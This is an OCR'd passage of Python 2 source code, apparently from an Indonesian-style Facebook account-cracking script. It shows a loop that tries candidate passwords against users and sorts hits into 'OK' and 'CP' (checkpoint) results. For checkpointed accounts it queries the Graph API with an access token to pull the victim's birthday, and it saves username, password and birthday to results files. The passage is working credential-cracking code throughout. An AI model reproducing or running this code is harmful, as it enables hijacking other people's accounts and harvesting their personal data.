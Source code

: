                     cp_ttl = requests.get('https://graph.facebook.com/%s?fields=birthday&access_token=%s'%(user,kontol)).json()['birthday']

                    month, day, year = cp_ttl.split('/')

                    month = bulan_ttl[month]

                    print '\r  %s* --> %s|%s|%s %s %s     %s' % (K,user,pw,day,month,year,N)

                    wrt = ' [×] %s|%s|%s %s %s' % (user,pw,day,month,year)

                    cp.append(wrt)

                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                    break

                except (KeyError, IOError):

                    month = ''

                    day   = ''

                    year  = ''

                except:

                    pass

                print '\r  %s* --> %s|%s                %s' % (K,user,pw,N)

                wrt = ' [×] %s|%s' % (user,pw)

                cp.append(wrt)

                open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                break

            else:

                continue

        loop += 1

    def __mfb__(self, user, __yan__):

        global ok,cp,loop

        sys.stdout.write('\r [%s*%s] [crack] %s/%s -> OK-:%s - CP-:%s '%(O,N,loop,len(self.id),len(ok),len(cp))),

        sys.stdout.flush()

        for pw in __yan__:

            pw = pw.lower()

            try: os.mkdir('results')

            except: pass

            try:

            	_kontol = open('YNTKTS.txt', 'r').read()
